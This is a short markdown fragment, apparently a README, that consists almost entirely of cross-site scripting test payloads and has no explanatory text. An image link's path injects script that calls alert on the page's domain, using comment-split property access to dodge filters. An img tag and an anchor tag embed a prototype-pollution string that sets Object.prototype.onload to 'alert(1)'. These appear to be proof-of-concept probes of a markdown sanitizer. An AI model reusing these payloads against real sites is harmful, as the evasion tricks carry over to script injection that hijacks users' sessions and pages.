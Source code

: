 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//)

<img src="https://github.com/falx00h/falx00h/edit/main/README.md?Object.prototype.onload = 'alert(1)';">
<a href="https://github.com/falx00h/falx00h/edit/main/README.md?Object.prototype.onload = 'alert(1)';">aaa</a>
